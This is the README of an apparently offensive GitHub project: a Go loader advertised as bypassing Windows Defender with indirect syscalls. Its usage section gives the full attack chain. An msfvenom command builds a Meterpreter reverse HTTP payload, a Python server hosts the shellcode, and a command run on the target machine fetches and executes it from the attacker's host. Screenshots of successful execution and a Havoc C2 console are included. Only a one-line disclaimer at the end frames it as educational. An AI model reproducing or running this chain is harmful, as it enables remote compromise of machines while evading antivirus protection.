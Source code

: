 # Overview
A simple golang loader that bypass Defender.

It uses [acheron](https://github.com/f1zm0/acheron) to make some indirect syscalls.
> I am currently working on improving this project and enhancing my skills in offensive Go. Any feedback is welcome!

### Usage

Generate the shellcode to execute, I usually use Havoc but it works with anyone:

```bash
msfvenom -p windows/x64/meterpreter_reverse_http LHOST=YOUR_IP LPORT=8080 -f raw -o shellcode.bin
base64 -w0 shellcode.bin > shellcode.enc
```
or using Havoc C2:

![Havoc Shellcode Generator](https://i.imgur.com/iaNxbKi.png)
```bash
base64 -w0 shellcode.bin > shellcode.enc
```

There are several ways to create HTTP servers, I will use this one in the directory with the shellcode.enc:
```bash
python3 -m http.server 80
```
From the attacked machine run the following command:
```powershell
.\loader.exe -url http://<YOUR_IP>/shellcode.enc
```
![Shellcode Executed](https://i.imgur.com/XeUIL6C.png)

![msfvenom shellcode executed](https://i.imgur.com/2LMnHgQ.png)

![Havoc console](https://i.imgur.com/sk72waR.png)


> [!WARNING]
> This project is for educational purposes only. Do not run it on machines you do not own or have explicit permission to test.

